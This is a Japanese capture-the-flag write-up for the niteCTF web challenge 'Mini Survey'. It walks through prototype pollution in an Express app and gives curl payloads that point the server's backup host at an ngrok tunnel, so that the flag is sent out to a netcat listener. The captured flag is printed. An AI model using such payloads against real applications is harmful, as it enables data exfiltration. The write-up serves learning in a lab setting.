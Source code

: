 # Mini Survey:web:XXXXpts
Please answer this survey for the better of all  
\- Minnesota Dept of Roads & Railways  
[http://mini-survey.web.nitectf.live/](http://mini-survey.web.nitectf.live/)  

[miniSurvery_updated_2.zip](miniSurvery_updated_2.zip)  

# Solution
URLとソースが与えられる。  
URLにアクセスすると、道路状況のアンケートを送信できる。  
![site1.png](site/site1.png)  
![site2.png](site/site2.png)  
![site3.png](site/site3.png)  
ソースを見るとindex.jsの主要部分は以下のようであった。  
```js
const express = require("express");
const updateDBs = require("./serverComs");
~~~
app.set("view engine", "ejs");
app.use(express.urlencoded({ extended: true }));

//add initial data as headers to convert to csv
let surveyOneInitialData = { Name: { City: "Rating" } };
let surveyTwoInitialData = { Name: { City: { Rating: "Reasons" } } };

~~~

app.post("/roadqualsurvey", (req, res) => {
    console.log(23);
    const fieldInput1 = req.body.name;
    const fieldInput2 = req.body.city;
    const fieldInput3 = req.body.roadRate;
    const fieldInput4 = req.body.reasons;

    let reasons = fieldInput4.split(",");

    surveyTwoInitialData[fieldInput1] = {
        [fieldInput2]: { [fieldInput3]: reasons },
    };

    console.log(surveyTwoInitialData);

    test = Object.create(surveyTwoInitialData);
    console.log(test.url);

    surveyTwoInitialData = updateDBs(surveyTwoInitialData, {
        Name: { City: { Rating: "Reasons" } },
    });

    res.redirect("/thankyou");
});

app.post("/pollutionsurvey", (req, res) => {
    let fieldInput1 = req.body.name;
    let fieldInput2 = req.body.city;
    let fieldInput3 = req.body.pollutionRate;

    surveyOneInitialData[fieldInput1] = { [fieldInput2]: fieldInput3 };

    surveyOneInitialData = updateDBs(surveyOneInitialData, {
        Name: { City: "Rating" },
    });

    res.redirect("/thankyou");
});
~~~
```
serverComs.jsは以下のようであった。  
```js
const net = require("net");

backupServerHost = "";
backupServerPort = "";

function sendData(data) {
    const postData = JSON.stringify(data);

    if (data.host != undefined) {
        backupServerHost = data.host;
    }

    if (data.port != undefined) {
        backupServerPort = data.port;
    }

    const options = {
        host: backupServerHost || "localhost",
        port: backupServerPort || "8888",
    };

    if (
        typeof options.host === "string" &&
        options.host.endsWith(".ngrok.io")
    ) {
        const socket = net.connect(options, () => {
            socket.write(postData);
            socket.end();
        });

        socket.on("error", (err) => {
            console.error("Error", err.message);
        });
    }
}

function updateDBs(dataObj, original) {
    let commData = Object.create(dataObj);
    commData["flag"] = "nite{FAKE_FAKE_FAKE_FLAG}";
    commData["log"] = "new entry added";
    sendData(commData);
    return original;
}

module.exports = updateDBs;
```
`updateDBs`に渡ったデータに`host`、`port`が存在すれば、そこにフラグを送っている。  
しなければ`localhost`の`8888`になるようだ。  
フロントからそれらを設定するものはないように見える。  
ここで`surveyOneInitialData[fieldInput1] = { [fieldInput2]: fieldInput3 };`の怪しさに気づく。  
`__proto__`経由で、任意の項目を汚染できる。  
`host`と`port`を自身の受信サーバに差し替えればよい(`options.host.endsWith(".ngrok.io")`に注意)。  
受信サーバ側を以下のように準備する。  
```bash
$ nc -lvnp 8888
Listening on 0.0.0.0 8888
```
```bash
$ ngrok tcp 8888
~~~
Session Status                online
Account                       t.satoki111@gmail.com (Plan: Free)
Update                        update available (version 3.5.0, Ctrl-U to update)
Version                       3.3.5
Region                        United States (California) (us-cal-1)
Latency                       -
Web Interface                 http://127.0.0.1:4040
Forwarding                    tcp://6.tcp.us-cal-1.ngrok.io:12576 -> localhost:8888
~~~
```
リクエストを以下のように送る。  
```bash
$ curl -X POST 'http://mini-survey.web.nitectf.live/pollutionsurvey' --data "name=__proto__&city=host&pollutionRate=6.tcp.us-cal-1.ngrok.io"
Found. Redirecting to /thankyou
$ curl -X POST 'http://mini-survey.web.nitectf.live/pollutionsurvey' --data "name=__proto__&city=port&pollutionRate=12576"
Found. Redirecting to /thankyou
```
先ほどの受信サーバ側に以下のようなリクエストが到達する。  
```bash
$ nc -lvnp 8888
Listening on 0.0.0.0 8888
Connection received on 127.0.0.1 43088
{"flag":"nite{pr0t0_p0llut3d_116a4601b79d6b8f}","log":"new entry added"}
```
flagが得られた。  

## nite{pr0t0_p0llut3d_116a4601b79d6b8f}